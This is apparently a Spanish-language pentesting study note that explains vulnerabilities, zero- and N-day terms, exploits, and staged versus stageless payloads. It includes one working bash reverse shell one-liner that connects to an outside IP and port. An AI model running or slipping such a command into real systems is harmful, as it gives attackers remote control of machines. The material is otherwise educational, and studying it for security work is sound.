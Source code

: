 [<- Índice](../Pentesting.md)
# Explotación

## ¿Qué es una vulnerabilidad?

> Es una *"debilidad"* en algún sistema que permite o se puede utilizar para otorgar acceso indebido a datos, controles internos o cualquier forma de información privilegiada.

#### Tipos

- *Software*
- *Hardware*
- Organización

#### Día N (*N-day*)

Se refiere al día desde que la vulnerabilidad se reportó.

- **Dia 0**: Las vulnerabilidades están en dia 0 cuando no han sido reportadas a los administradores del sistema vulnerable
- **Dia 1**: Se considera el día que se reporta la vulnerabilidad a los administradores del sistema.
- **Dia n**: Día *n* desde que se reportó la vulnerabilidad en el sistema

## Exploits

> Cualquier procedimiento, *software*, *script* o forma de aprovechar una vulnerabilidad para obtener algo (que no deberiamos tener acceso).

Por ejemplo, muchos *exploits* buscan establecer una ***terminal remota*** con un servidor, ya sea una *Webshell*, *Bind Shell* o de preferencia una *Reverse Shell*.

***Tipos***:
- Remoto
- Local

### Carga útil (payload)

> Es el contenido *"importante"* o principal de un *exploit*, comunmente denominado *payload* o carga útil.

Por ejemplo para generar una *Reverse Shell* hacia la *IP* `10.9.243.92` en el puerto `1234`:

```bash
sh -i >& /dev/tcp/10.9.243.92/1234 0>&1
```

#### Carga con etapas

> Podemos clasificar una carga útil por etapas, cuando consta de un ***procedimiento segmentado*** para obtener el resultado final del *exploit.*

Es decir, posee varios pasos el procedimiento del *exploit*, separando la totalidad de la carga útil en partes.

Esto permite que el tamaño de estas partes sea más pequeño, menos notorio y más fácil de transferir.

Sin embargo, requiere de una conexión estable y continua al equipo víctima, toma más tiempo y puede ser un proceso complejo de realizar.

#### Carga sin etapas

> Una carga útil sin etapas, es aquella que entregamos completa a la víctima en una sola exhibición.

Pueden ser transferencias más grandes o pesadas pues debemos transferir todo lo que necesita nuestro *exploit* para funcionar adecuadamente.

Sin embargo, según el caso, puede ser más rápida de realizar y más sencilla.

# Enlaces

[<- Anterior](Evaluacion.md) | [Siguiente ->](Evaluacion.md)